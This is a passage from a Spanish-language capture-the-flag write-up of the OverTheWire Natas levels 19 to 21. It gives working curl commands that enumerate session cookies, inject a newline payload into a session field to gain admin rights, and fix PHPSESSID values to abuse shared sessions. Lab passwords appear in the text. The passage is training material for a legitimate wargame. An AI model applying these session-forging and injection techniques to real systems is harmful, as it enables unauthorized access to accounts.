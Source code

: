 ```
while true; do curl -s -c - -I -u natas19:4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs 'http://natas19.natas.labs.overthewire.org?debug&username=admin&password=asdf'|awk '/Set-Cookie/ {print $2}'|awk -F= '{sub(/;/,""); print $2}'|xxd -r -p; echo; done
494-admin
160-admin
616-admin
162-admin
475-admin
15-admin
412-admin
443-admin
542-admin
```

Basta pues con alterar ligeramente el script python del caso anterior para obtener las credenciales buscadas:

natas20 : eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF

# natas20

Analizando el código hay alguna pista relevante; para mí, el comentario de "our encoding is better" es decisivo :)

Por la forma en que se tratan los datos de sesión, parece claro que se trata de inyectar una cadena de la forma "\nadmin 1" en el campo `name`. Podemos hacerlo con `curl`:

Hay que tener solo un par de precaciones:

* fijar el nombre de la cookie de sesión
* Codificar bien la URL

Y lo tenemos así:

```
curl --cookie "PHPSESSID=ojoooooo" -u natas20:eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF 'http://natas20.natas.labs.overthewire.org?name=admin%0Aadmin%201'
```

Con eso el fichero está escrito; hacemos una segunda llamada -con esa sesión- para leerlo:

```
curl --cookie "PHPSESSID=ojoooooo" -u natas20:eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF 'http://natas20.natas.labs.overthewire.org'
[...]
You are an admin. The credentials for the next level are:<br><pre>Username: natas21
Password: IFekPyrQXftziDEsUr3x21sYuahypdgJ</pre>
```

# natas21

Este es casi trivial. El sitio "principal" no da muchas opciones, pero comparte "sesiones" con otr que sí nos deja añadir entradas.
Controlando el PHPSESSID como en el caso anterior, basta con añadir admin=1 como parámetro de POST con tamper data.
Luego, con el mismo PHPSESSID, leemos los datos en la otra URL:

